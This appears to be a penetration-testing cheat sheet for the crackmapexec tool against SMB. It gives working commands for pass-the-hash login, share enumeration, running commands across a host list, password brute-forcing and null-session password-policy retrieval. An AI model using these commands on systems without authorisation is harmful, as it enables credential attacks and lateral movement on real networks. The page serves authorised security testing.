 # crackmapexec

## SMB

```csharp
crackmapexec smb <TARGET_IP> -d <DOMAIN> -u Administrator -H <NTLM HASH>
```

### Shares enumeration

```csharp
crackmapexec smb 10.110.0.222  -u 'CROOK\homer_potter' -p $PASS --shares
```

### Executing a command on a provided hosts list

```csharp
crackmapexec smb <HOST.lst> -d domain.com -u Administrator -H <NTLM HASH> -x 'whoami'
```

### Bruteforce attack

```csharp
crackmapexec smb <TARGET_IP> -u <user.lst> -p <pass.list>
```

### Password policy

```csharp
crackmapexec smb 10.110.0.222 --pass-pol -u '' -p ''
```

